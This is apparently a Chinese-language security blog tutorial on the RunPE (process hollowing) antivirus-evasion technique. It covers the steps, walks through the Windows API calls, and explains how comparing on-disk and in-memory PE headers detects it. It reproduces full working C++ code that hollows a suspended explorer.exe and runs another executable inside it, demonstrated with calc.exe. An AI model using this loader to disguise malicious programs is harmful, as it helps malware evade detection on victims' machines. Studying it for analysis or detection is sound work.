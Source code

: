 # 0x01 RunPE 技巧

>一些古老的免杀技巧不一定能过现代检测，主要是学习其思路，招式多了才能灵活运用。


这是一种古老的免杀技巧，核心是进程隐藏：

1. 选择一个受害系统中已开启的进程；
2. 创建一个此进程的新实例作为傀儡进程，以挂起状态启动；
3. 修改新实例的内存，清除（磁盘文件 PE.exe 映射到）内存中所有节区（通过 NtUnmapViewOfSection 实现）；
4. 重新分配内存（基地址不变，但可能分配更多内存）为了在其中复制自己的代码，注意 preferred address 不变；
5. 将恶意 PE 的 PE 头+PE 体复制到新分配的内存中，注意调整 ModuleEntryPoint 去匹配新偏移；
6. 恢复进程的主线程。


**优势：**

可以做到隐藏进程。在进程查看器中看到的是一个进程，实际上实现的功能是另一个恶意 PE 的功能。




# 0x02 API 链分析：


>注：以实现 calc.exe 功能为例，也就是假设恶意 pe 为 calc.exe；

1. 解析恶意 PE calc.exe 的 PE 结构；
2. `CreateProcess` API 创建状态为 SUSPENDED 的 explorer.exe 实例（原文在此是创建了一个 Process 类，实现了 CreateWithFlags 这个方法。经查看完全就是 CreateProcess 的功能）；
3. `VirtualAlloc` 第一次为此进程初始化分配内存空间，权限为 `MEM_COMMIT` `PAGE_READWRITE`；
4. `GetThreadContext` API 检索新创建 explorer 进程实例的上下文，第二个参数传入上一步中分配的内存区域，也就是读这个目标进程的有效上下文；
5. `ReadProcessMemory` 获取目标进程的基地址（具体实现是第二个参数传入基地址的指针，然后从第三个参数接收返回值）；
6. 微软未文档化的 API `NtUnmapViewOfSection`，这个 API 的功能是 This function unmaps a previously created view to a section，实际上就是通过 NtUnmapViewOfSection 清空新进程的内存数据；
7. 注：这种未文档化的 API 没有关联的导入库，所以使用时必须先通过 LoadLibrary 和 GetProcAddress 函数动态链接到 Ntdll.dll。参考：[MSDN - RtlNtStatusToDosError function](https://docs.microsoft.com/en-us/windows/win32/api/winternl/nf-winternl-rtlntstatustodoserror)；
8. 如果清空新进程内存数据成功，实际上也就是把原本的 explorer.exe 代码取消映射到内存中。然后再次使用 `VirtualAllocEx` API 为恶意 PE 重新分配内存；
9. 通过作者自己实现的 PE 类的中一些函数，获取恶意 PE 的头信息；
10. 调用 `WriteProcessMemory` API 去写这些恶意 PE 的 PE 头信息；
11. 通过作者自己实现的 PE 类的中一些函数，获取恶意 PE 的节区数据，写入一个缓冲区；
11. 再次调用 `WriteProcessMemory` API，一次性写入 PE 的各个节区的数据；
12. 调用 `SetThreadContext` API 设置 32位线程的上下文，呼应一开始的 GetThreadContext API，传入的第一个参数依然是进程实例的句柄，第二个参数是已被写入恶意 PE 内容的通过第3步分配的内存空间；
13.  `ResumeThread` 恢复主线程，开始执行恶意 PE；
14.  CloseHandle 关闭进程句柄；
15.  CloseHandle 关闭主线程句柄。


# 0x03 缺点分析

在实际操作时候，可以把 PE 换成 shellcode。但是还是更适合 exe 类型的恶意载荷，因为我们都知道，shellcode 的特点是：


- 独立的存在，无需任何文件格式的包装。
- 内存中运行，无需固定指定的宿主进程。

本文中介绍的这种 RunPE 方法，严重破坏原本的 PE 结构。检测时候仅仅需要对比磁盘上的 PE 头和内存中的 PE 头，就可以很好的检测出来。如果是 shellcode，用注入更合适，就可以不破坏 PE 本身的 PE 头，不会被检测出来。



# 0x04 源码实现

这个源码是原作者写的，我一并附上。作者为了避免被人开箱即用做坏事，专门定义了两个类：

- PE 类
- Process 类

PE 类主要实现了解析恶意 PE 结构，获取原 PE 文件的信息，写入恶意 PE 数据等功能，读者可以自行去 MSDN 寻找可替换 API。

至于 Process 类，我在第二部分的 API 分析中已经替换为 CreateProcess API 了，此类实现的功能较为简单，可以直接忽略。







```
//RunPE.cpp
void RunPe( wstring const& target, wstring const& source )
{
    Pe src_pe( source );        // Parse source PE structure
    if ( src_pe.isvalid )
    {        
        Process::CreationResults res = Process::CreateWithFlags( target, L"", CREATE_SUSPENDED, false, false ); // Start a suspended instance of target
        if ( res.success )
        {
            PCONTEXT CTX = PCONTEXT( VirtualAlloc( NULL, sizeof(CTX), MEM_COMMIT, PAGE_READWRITE ) );   // Allocate space for context
            CTX->ContextFlags = CONTEXT_FULL;

            if ( GetThreadContext( res.hThread, LPCONTEXT( CTX ) ) )    // Read target context
            {
                DWORD dwImageBase;
                ReadProcessMemory( res.hProcess, LPCVOID( CTX->Ebx + 8 ), LPVOID( &dwImageBase ), 4, NULL );        // Get base address of target
                
                typedef LONG( WINAPI * NtUnmapViewOfSection )(HANDLE ProcessHandle, PVOID BaseAddress);
                NtUnmapViewOfSection xNtUnmapViewOfSection;
                xNtUnmapViewOfSection = NtUnmapViewOfSection(GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtUnmapViewOfSection"));
                if ( 0 == xNtUnmapViewOfSection( res.hProcess, PVOID( dwImageBase ) ) )  // Unmap target code
                {
                    LPVOID pImageBase = VirtualAllocEx(res.hProcess, LPVOID(dwImageBase), src_pe.NtHeadersx86.OptionalHeader.SizeOfImage, 0x3000, PAGE_EXECUTE_READWRITE);  // Realloc for source code
                    if ( pImageBase )
                    {
                        Buffer src_headers( src_pe.NtHeadersx86.OptionalHeader.SizeOfHeaders );                 // Read source headers
                        PVOID src_headers_ptr = src_pe.GetPointer( 0 );
                        if ( src_pe.ReadMemory( src_headers.Data(), src_headers_ptr, src_headers.Size() ) )
                        {
                            if ( WriteProcessMemory(res.hProcess, pImageBase, src_headers.Data(), src_headers.Size(), NULL) )   // Write source headers
                            {
                                bool success = true;
                                for (u_int i = 0; i < src_pe.sections.size(); i++)     // Write all sections
                                {
                                    // Get pointer on section and copy the content
                                    Buffer src_section( src_pe.sections.at( i ).SizeOfRawData );
                                    LPVOID src_section_ptr = src_pe.GetPointer( src_pe.sections.at( i ).PointerToRawData );
                                    success &= src_pe.ReadMemory( src_section.Data(), src_section_ptr, src_section.Size() );                                    

                                    // Write content to target
                                    success &= WriteProcessMemory(res.hProcess, LPVOID(DWORD(pImageBase) + src_pe.sections.at( i ).VirtualAddress), src_section.Data(), src_section.Size(), NULL);
                                }

                                if ( success )
                                {
                                    WriteProcessMemory( res.hProcess, LPVOID( CTX->Ebx + 8 ), LPVOID( &pImageBase), sizeof(LPVOID), NULL );      // Rewrite image base
                                    CTX->Eax = DWORD( pImageBase ) + src_pe.NtHeadersx86.OptionalHeader.AddressOfEntryPoint;        // Rewrite entry point
                                    SetThreadContext( res.hThread, LPCONTEXT( CTX ) );                                              // Set thread context
                                    ResumeThread( res.hThread );                                                                    // Resume main thread
                                }                               
                            }
                        }                       
                    }
                }
            }

            if ( res.hProcess) CloseHandle( res.hProcess );
            if ( res.hThread ) CloseHandle( res.hThread );
        }
    }
}
...
RunPe( L"C:\\windows\\explorer.exe", L"C:\\windows\\system32\\calc.exe" );
```


------------


参考文档：

1. [RunPE: How to hide code behind a legit process](https://www.adlice.com/runpe-hide-code-behind-legit-process/?__cf_chl_jschl_tk__=5f1ebd15eb3b055970bcb17c07f958e0b0ce529e-1596768269-0-ASo8oOjVCky_6EASW8kW-ynLbDB_shuMUtvEL8qhuf4w1u7yd7fp0SGBTZChFn8qZeBpqU_UrkMK34eJJJNQFDL6T8RGeYMP2abQMEnBgHtXwgv66ANGXTAUB94y9e_kkuz0awp1sdDZ898L06vvXyMdq0lEzAD3CeigouuUNjzg2KTUAObPGoK4uiB8sTsdJN3uFZTKiUyj-U1ST1uAE_3Pfs8dsLCJm6MXC9fJQu3LTDi49nse49rQy7QUbpNBVGh_4qNHra8Jps5izT2-x-mzpI1Yt3F_suHWqfC7kwehNmv8dJgtiAKpuIcWW_9J9KMibFnTK7Nv7JOY32vmSTXy2tIMtLG7HqMiP-VuMgSWFsOzB0QZQjUMuvEghdzGxA)，tigzy，Adlice.com，2015-06-10
2. [RemoteFreeLibrary](https://www.zcgonvh.com/post/RemoteFreeLibrary.html)，zcgonvh，草泥马之家，2019-10-26（主要参考里面未文档化 API 的用法，如 `RtlCreateUserThread`、`RtlNtStatusToDosError`）